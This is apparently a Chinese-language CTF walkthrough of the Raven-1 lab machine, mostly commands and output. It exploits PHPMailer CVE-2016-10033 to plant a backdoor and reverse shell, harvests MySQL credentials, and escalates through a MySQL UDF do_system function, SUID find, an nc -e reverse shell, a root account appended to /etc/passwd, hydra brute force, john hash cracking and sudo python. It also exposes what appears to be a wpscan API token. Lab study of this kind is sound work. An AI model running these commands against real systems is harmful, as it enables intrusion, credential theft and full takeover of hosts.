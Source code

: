 # mynew
改exp的时候注意事项
目标 具体url eg：本项目中要找到可以解析php的url，木马的名字<5字符
grep "password" -rn wp-config.php
udf提权 项目3. 6. 15
mysql udf nc反弹shell 创建root用户
sudo python提权


该项目Raven-1是在项目三做过作者的第二个项目的！

1、nmap 10.211.55.0/24 -sP
Nmap scan report for localhost (10.211.55.12)
发现项目IP地址！


2、全端口扫描nmap
nmap -sC -sV -A -T5 -p- 10.211.55.12
22/tcp    open  ssh     OpenSSH 6.7p1
80/tcp    open  http    Apache httpd 2.4.10
111/tcp   open  rpcbind 2-4 (RPC #100000)
54140/tcp open  status  1 (RPC #100024)


3、AWVS漏扫

http://10.211.55.12/
漏扫发现：
WordPress 4.8.x Multiple Vulnerabilities (4.8 - 4.8.15)


4、页面信息收集

1）在访问：http://10.211.55.12/service.html模块查看静态源码发现flag：
flag1{b9bbcb33e11b80be759c4e844862482d}


2）dirb http://10.211.55.12
枚举发现该目录：
==> DIRECTORY: http://10.211.55.12/vendor/

http://10.211.55.12/vendor/PATH  第二个目录获得flag：
/var/www/html/vendor/
flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}

3）http://10.211.55.12/vendor/README.md
枚举获得信息：PHPMailer
http://10.211.55.1N2/vendor/VERSIO
枚举获得信息：5.2.16
这时候去找EXP！


+5、PHPMailer

谷歌：PHPMailer 5.2.16 exp
CVE-2016-10033
点击第一条就能发现：https://www.exploit-db.com/exploits/40974

searchsploit 40974
cp /usr/share/exploitdb/exploits/php/webapps/40974.py /root/桌面

将exp考出，需要针对PHPMailer修改参数:

+41行：改下地址：http://10.211.55.12/contact.php
42行：后门名称：/dayu.php
44行：改下回弹的IP和端口  10.211.55.19  6666
47行：改下写入shell的目录：/var/www/html/dayu.php


6、执行exp
python3 40974.py
如果环境报错按照环境安装：
需要安装requests_toolbelt模块，使用命令：pip install requests-toolbelt安装即可，如果没用pip，需要sudo apt-get install python-pip安装即可。

访问http://10.211.55.12/contact.php，此时就会生成后门文件dayu.php
本地开启监听：nc -vlp 6666
访问：http://10.211.55.12/dayu.php
获得反弹shell！
python -c 'import pty;pty.spawn("/bin/bash")'


7、内网信息收集

1）在www目录下发现flag2
/var/www
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}


2）wordpress目录枚举
在wordpress目录下发现wp-config.php：
grep "内容" -rn 
grep "password" -rn wp-config.php

define('DB_USER', 'root');
/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');
获得mysql账号密码信息！


3）查看是否能udf提权
==条件1：查看是否是root权限运行
ps aux | grep root   ---查看mysql进程信息
条件2：查看mysql版本
dpkg -l | grep mysql   --查看历史安装包版本 5.5.6==

mysql是root权限运行的，那么接下来就找mysql提权的方法。
mysql -uroot -pR@v3nSecurity


8、mysql UDF 提权
UDF 提权、MOF 提权是非常经典的提权方法！
https://blog.csdn.net/qq_36119192/article/details/84863268
------------------

==首先看一下是否满足写入条件：条件1
show global variables like 'secure%';==
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv |       |
+------------------+-------+
2 rows in set (0.00 sec)
1）当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
2）当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/目录下，此时也无法提权
3）当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权!
如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\plugin 文件夹下文件夹下才能创建自定义函数。

==查看插件目录：条件2
show variables like '%plugin%';==
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)

==查看能否远程登陆：
use mysql;
select user,host from user;==
+------------------+-----------+
| user             | host      |
+------------------+-----------+
| root             | 127.0.0.1 |
| root             | ::1       |
| debian-sys-maint | localhost |
| root             | localhost |
| root             | raven     |
+------------------+-----------+
5 rows in set (0.00 sec)
发现这里root用户不允许远程登陆，因此不能利用MSF提权。




谷歌搜索：mysql 5.x UDF exploit  或者  searchsploit udf
https://www.exploit-db.com/exploits/1518   
searchsploit 1518.c
cp /usr/share/exploitdb/exploits/linux/local/1518.c /root/桌面 

gcc -g -c 1518.c   ---GCC编译.o文件
gcc -g -shared -o dayu.so 1518.o -lc
-g 生成调试信息
-c 编译（二进制）
-shared：创建一个动态链接库，输入文件可以是源文件、汇编文件或者目标文件。
-o：执行命令后的文件名
-lc：-l 库 c库名

wget http://192.168.139.131/zc1.so

show databases;
use mysql
select database();

进入数据库创建数据表dayu：
create table zc1(line blob);
插入数据文件：
insert into zc1 values(load_file('/var/www/html/zc.so'));

dayu表成功插入二进制数据，然后利用dumpfile函数把文件导出，outfile 多行导出，dumpfile一行导出
outfile会有特殊的转换，而dumpfile是原数据导出！
新建存储函数：
select * from zc1 into dumpfile '/usr/lib/mysql/plugin/zc1.so';

创建自定义函数do_system，类型是integer，别名（soname）文件名字，然后查询函数是否创建成功：
create function do_system returns integer soname 'zc1.so';

查看以下创建的函数：
select * from mysql.func;
调用do_system函数来给find命令所有者的suid权限，使其可以执行root命令：
select do_system('chmod u+s /usr/bin/find');

执行find命令
使用find执行 shell
touch dayu
find zc -exec "/bin/sh" \;
或者：find dayu -exec "id" \;
cd /root
cat flag4.txt
flag4{df2bc5e951d91581467bb9a2a8ff4425}


-------------------
UDF拓展知识点：

1）nc反弹shell：
select do_system('nc -nv 10.211.55.28 6677 -e /bin/bash');

-------------------
2）创建root权限用户
openssl passwd dayu1
YpIR51FecR9AY
select do_system('echo "dayu1:Ef8ipBmhp5pnE:0:0:root:/root:/bin/bash" >> /etc/passwd');
su dayu
                        root:x:0:0:root:/root:/bin/bash
-------------------


9、内网信息收集用户名爆破

1）脚本枚举用户：michael、steven
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 10.211.55.12 ssh
[22][ssh] host: 10.211.55.12   login: michael   password: michael

2）数据库枚举密码值爆破

数据库枚举发现信息：
mysql -uroot -pR@v3nSecurity 

show databases;
use wordpress
show tables;
select * from wp_users;
michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0
steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/

john --wordlist=/usr/share/wordlists/rockyou.txt 1.txt
pink84           (steven)

steven
pink84
ssh steven@10.211.55.12

sudo -l   
User steven may run the following commands on raven:
    ==(ALL) NOPASSWD: /usr/bin/python
发现是python给与的最高权限！
sudo python -c 'import pty; pty.spawn("/bin/bash")'
这时候用sudo执行python就能拿到root的shell!==



9、项目7 wpscan扫描

wpscan --url http://10.211.55.12/wordpress -eu
https://wpscan.com/register

wpscan --url http://10.211.55.12/wordpress -eu --api-token kJ4bhzc11gveCcoGJPER7AOsHJTeFDf90Wfj9zu0V6asc


--------
在数据库wordpress的wp_posts表中发现：
flag3{afc01ab56b50591e7dccf93122770cd2}
flag4{715dea6c055b9fe3337544932f2941ce}







































